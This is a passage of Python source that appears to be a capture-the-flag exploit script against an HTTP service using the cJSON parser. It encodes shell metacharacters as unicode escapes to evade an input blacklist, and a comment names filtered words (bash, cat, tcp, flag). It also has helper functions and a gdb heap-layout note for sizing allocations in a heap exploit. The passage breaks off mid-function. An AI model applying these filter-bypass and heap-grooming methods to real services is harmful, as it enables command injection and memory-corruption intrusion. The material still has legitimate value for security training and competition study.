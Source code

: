 ```plain
    b"$": b"\\u0024",
    b"|": b"\\u007c",
    b"`": b"\\u0060",
    b"&": b"\\u0026",
    b"#": b"\\u0023",
    b"(": b"\\u0028",
    b")": b"\\u0029",

    b"\x00": b"\\u0000",
    # bash, flag, cat, tcp
}



def get_raw_payload(payload):
    # breakpoint()
    raw_payload = b""
    for i in payload:
        c = chr(i).encode("latin")
        if c in blacklist_dict:
            raw_payload += blacklist_dict[c]

        else:
            raw_payload += c

    return raw_payload

def calc_array_pair_cnt(required_size, message_len):
    align_up_0x10 = lambda x: (x + 0x0f) & ~0xf
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")



def generate_array_payload(required_size, message_len):
    '''
    gdb-peda$ parseheap
    addr      ... size ...
    0x1cf0000 ... 0x?? ...    strlen(http_message) // 
    0x1cf0090 ... 0x50 ...    cJSON_Object root     
    0x1cf00e0 ... 0x50 ...    cJSON_String data string
    0x1cf0130 ... 0x20 ...    strlen("data")
    0x1cf0150 ... 0x60 ...    strlen(data string)
    0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
    0x1cf0200 ... 0x20 ...    strlen("timestamp")
    0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
    0x1cf0270 ... 0x20 ...    strlen("timestamp")
    '''
    # breakpoint()
```